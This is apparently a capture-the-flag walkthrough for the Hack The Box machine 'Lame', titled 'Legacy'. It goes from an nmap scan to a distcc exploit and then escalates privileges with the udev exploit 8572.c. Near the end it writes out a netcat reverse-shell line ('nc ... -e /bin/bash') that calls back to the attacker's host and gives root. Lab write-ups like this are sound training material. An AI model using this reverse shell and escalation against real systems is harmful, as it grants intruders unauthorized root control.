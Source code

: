 Legacy without Metasploit:

![Lame](https://user-images.githubusercontent.com/55708909/91424966-24d6d500-e878-11ea-8989-bca46c0cc916.png)



Starting with Nmap Scan :
Nmap -sC -sV -T4 -A -O -oA Legacy -p- 10.10.10.3

![Lame_nmap](https://user-images.githubusercontent.com/55708909/91425616-01f8f080-e879-11ea-9f03-d54ed3ca7e24.png)

FTP port doesn't have any info to give so i quickly switch to nmap vulnerability scripts as per my own methodology and found one vector to attack

![Lame_vuln](https://user-images.githubusercontent.com/55708909/91427248-3c638d00-e87b-11ea-994b-455883a3dc41.png)

distcc is kind of compilier and nmap has a script to exploit this vulnerability

![Lame_shell](https://user-images.githubusercontent.com/55708909/91429683-610c3480-e87c-11ea-959c-1d02e7e51b5b.png)

For Priviledge Escalation we are going to use 2009-1185

searchsploit -m 8572.c

It require process id of udevd : ps -aux |grep devd

As per this exploit the file run in tmp directory will be running with root priviledges.

run
#/bin/bash
nc -nv 10.10.10.10 4444 -e /bin/bash

transfer the file run in tmp directory and run these commands 

./8572 2688 (as per my pc udevd PID. It can be differet for yours)

and we get reverse connection on netcat at port 4444









